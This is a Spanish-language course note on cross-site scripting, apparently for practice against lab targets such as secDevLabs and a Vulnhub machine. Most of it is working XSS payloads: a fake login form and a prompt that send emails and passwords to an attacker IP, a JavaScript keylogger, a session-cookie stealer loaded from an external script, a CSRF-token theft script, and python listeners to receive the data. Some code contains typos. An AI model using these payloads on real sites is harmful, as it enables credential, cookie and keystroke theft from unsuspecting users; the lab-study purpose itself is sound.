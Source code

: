 # Cross-Site Scripting

Tags: #XSS #OWASP #Explotacion 

Una vulnerabilidad **XSS** (**Cross-Site Scripting**) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

-   **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
-   **Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
-   **DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

A continuación, se proporciona el proyecto de GitHub correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:

-   **secDevLabs**: [https://github.com/globocom/secDevLabs](https://github.com/globocom/secDevLabs)
* [Ejercicios-XSS](https://sudo.co.il/xss/)

Los XSS pueden interpretar código en **HTML y/o  JavaScript** y es ahí en donde podemos colocar las inyecciones.

## HTML

```javascript
<h1>Hola</h1>                                                              /// Podemos hacer inyecciones con codigo HTML
<marquee>Hola</marquee>                                                    /// Podemos usar marquee para que el texto nos salga animado, de izquierda a derecha 

<a href="https://www.ionos.mx/digitalguide/URL">Texto ancla</a>            /// Para colocar un enlace 

<img src="images/imagen.png">                                              /// Para agregar una imagen
<img src="https://test.com/images/imagen.png">

<img src="X" onerror=alert(1) />                                                     /// Para colocar un alert basado en un error 

<iframe src="http://ejemplo.org/demo.html" height="400" width="800" name="demo">     /// Para agregar una pagina dentro de otra pagina con dimenciones 
  <p>Su navegador no es compatible con iframes</p>
</iframe>
```

## JavaScript en la web

```javascript
<script>alert("XSS")</script>          /// Creamos una ventana emergente con codigo javascript que dice XSS
<script>prompt('Mensaje')</script>     /// Ventana emergente para ingresar algun dato                

<script>                               /// Para mandar algo por el metodo POST a un dominio 
  fetch('https://kwklry4t8e18m8q8k5uikgydy44vslga.oastify.com',{method:'POST', mode:'no-cors', body:'omar'});
</script>
```

## Recibir información por medio de un 'Alert'  

```javascript
// Podemos crear un script en donde nos devuelva el correo o algún dato a nuestra IP. 

<script>
    var email = prompt("Por favor, introduce tu correo electronico para visualizar el post", "example@example.com");

    if (email == null || email == ""){   
        alert("Es necesario introducir un correo para ver el post");
    } else{
        fetch("http://192.168.68.108/?email=" + email );  
    }
</script>

	/// If = Verificar si el correo esta vacio o no
	/// fetch = Realizar una peticion a nuestra IP de atacante para recibir la informacion 
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```

## Recibir información 

```html
<!-- También lo podemos hacer con HTML y Javascript para poder hacer un (Phishing), el cual nos regresara a nuestra maquina victima el correo y la passwd de la victima -->

<div id="formContainer"></div>

<script>
	var email;
	var password;
	var form = '<form>' +
		'Email: <input type="email" id="email" required>' +
		' Contrasena: <input type="password" id="password" required>' +
		'<input type="button" onclick="submitForm()" value="Submit">' +
		'</form>';
		
	document.getElementByld("formContainer”).innerHTML = form;
	
	function submitForm() {
		email = document.getElementByld("email").value;
		password = document.getElementByld("password").value;
		fetch("http://192.168.68.108/?email=" + email + "&password="+ password);
	}
</script>
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```


## Keylogger JavaScript

```javascript
// Podriamos ver las pulsaciones de teclado en tiempo real dentro de la web

<script>
   var k = "";    
   document.onkeypress = funtion(e){
        e = e || window.event;                 // Opcional para que en cualquier navegador funcione el Keylogger
        k += e.key;
        var i = new Image();
        i.src = "http://192.168.68.111/" + k;
    };
</script>

	// K = Variable que almacena las pulsaciones  
```

```bash
❯ python3 -m http.server 80  | grep -oP "GET /\k[^.*\s]+"      # Nos montamos un servidor http 80 para recibir las peticiones y que las filtre 
```

## Redirección al usuario 

```javascript
// Podemos crear un Script para redirigir al usuario a otra pagina web 

<script>
	window.location.href = "https://hack4u.io";
</script>
```

## JavaScript robar cookie de Sesión 

Web para identificar un [Json Web Token](https://jwt.io/), este se encuentra en: **Ctrl + Shift + c > Application/Storage > Session**

External JavaScript Source, podemos cargar código desde un servidor externo para tratar de robarle la cookie de sesión.
* Debemos de ver en la web que no tenga activado el **httpOnly** el cual se encuentra en **Application** ya que eso impediría poder robarla.
* Esto seria un **Cookie Hijacking**

```javascript
// 1. Esto lo colocaremos en la web de prueba y crearemos la publicación

<script src="http://192.168.68.111/test.js"></script>
```

```javascript
// 2. En nuestra maquina de atacante crearemos este archivo 'js' con el cual robaremos la Cookie de Sesion del usuario

❯ nvim test.js                                                  # Creamos el archivo js

	var request = new XMLHttpRequest();
	request.open('GET', 'http://192.168.68.111/?cookie=' + document.cookie);
	request.send();         
```

```bash
❯ python3 -m http.server 80               # Nos montamos un servidor http 80 para recibir las peticiones 

# Después de tener la 'Cookie de Session' podemos pegarla en donde se encuentra la nuestra 'sustituyendola' en la web y así cuando recarguemos la pagina, iniciaremos como el otro usuario.
```


----

Esto lo colocaremos en la web de prueba y crearemos la publicación
```javascript
<script src="http://192.168.68.111/pwned.js"></script>
```

* Cuando creas el archivo .js ya no es necesario poner las cabeceras <script></script>
```bash
❯ nvim pwned.js                                                  # Creamos el archivo js
```

Esto se usa una vez obtenido la **csrf_token y value**
```javascript
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withcredentials = true;                               // Por si el Token es Dinamico y asi lo volvemos Estatico
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parserFromString(respose, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
var data = "title=HACKED&subtitle=HaCkEd&text=HAC%20ked&_csrf_token=" + token;   // El %20 es un espacio en urlencode
req2.open('POST', 'http://localhost:10007/newgossip', false); 
req2.withcredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```

```bash
❯ python3 -m http.server 80                                     # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
En esta clase, trataremos de resolver una máquina de la plataforma de **Vulnhub** para practicar los ataques XSS.

Vulnhub es una plataforma de seguridad informática que se centra en la creación y distribución de máquinas virtuales vulnerables con el fin de mejorar las habilidades de los profesionales de la seguridad informática. La plataforma proporciona una amplia variedad de máquinas virtuales (VM) que se han configurado para contener vulnerabilidades deliberadas que pueden ser explotadas para aprender y reforzar técnicas de hacking.

A continuación, se proporciona el enlace a la máquina que nos descargamos en esta clase para practicar esta vulnerabilidad:

-   **Máquina MyExpense**: [https://www.vulnhub.com/entry/myexpense-1,405/](https://www.vulnhub.com/entry/myexpense-1,405/)


